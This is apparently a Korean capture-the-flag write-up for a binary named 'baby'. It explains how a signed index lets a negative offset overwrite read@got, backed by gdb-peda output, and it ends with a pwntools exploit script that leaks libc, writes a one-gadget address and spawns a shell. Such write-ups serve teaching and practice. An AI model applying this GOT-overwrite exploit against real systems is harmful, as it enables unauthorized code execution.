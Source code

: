 * read() 함수를 통해 3번의 입력을 받는데 index 변수의 타입이 "long long"이기 때문에 음수 저장이 가능하다. 따라서 2번째 입력값을 원하는 주소에 입력할 수 있다.  
* 2번째 read() 함수 수행 전 &index([rbp-0x10]) 와 asd(0x601080)를 더한 값을 2번째 인자로 전달하고 있다.  
* 1번째 값으로 0x4141414141414141(AAAAAAAA) 입력 시 0x601080을 더하여 0x4141414141a151c1 위치에 2번째 값을 쓸 수 있다. 

```
...
   0x00000000004006c7 <+81>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006cb <+85>:	add    rax,0x601080
   0x00000000004006d1 <+91>:	mov    edx,0x8
   0x00000000004006d6 <+96>:	mov    rsi,rax
   0x00000000004006d9 <+99>:	mov    edi,0x0
   0x00000000004006de <+104>:	call   0x400540 <read@plt>
...
gdb-peda$ p $rax
$1 = 0x4141414141a151c1
```

* read@got 영역에 One Gadget  주소를 저장하면 Shell을 획득할 수 있다.  
* 0x601020(read@got) - 0x601080(asdf) = 0xffffffa0

```
gdb-peda$ elfsymbol
Found 4 symbols
printf@plt = 0x400530
read@plt = 0x400540
__libc_start_main@plt = 0x400550
dlsym@plt = 0x400560
gdb-peda$ x/3i 0x400540
   0x400540 <read@plt>:	jmp    QWORD PTR [rip+0x200ada]        # 0x601020
   0x400546 <read@plt+6>:	push   0x1
   0x40054b <read@plt+11>:	jmp    0x400520
gdb-peda$ p 0x601020-0x601080
$2 = 0xffffffa0
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *

p = process('./baby')
gdb.attach(p)
printf = int(p.recvline().split(' ')[3],16)

libBase = printf - 0x55800
oneGadget = libBase + 0x4526a

log.info("libBase: " + str(hex(libBase)))
log.info("oneGadget: " + str(hex(oneGadget)))

p.sendline(p64(0xffffffffffffffa0))
raw_input('1')
p.sendline(p64(oneGadget))
p.interactive()
```
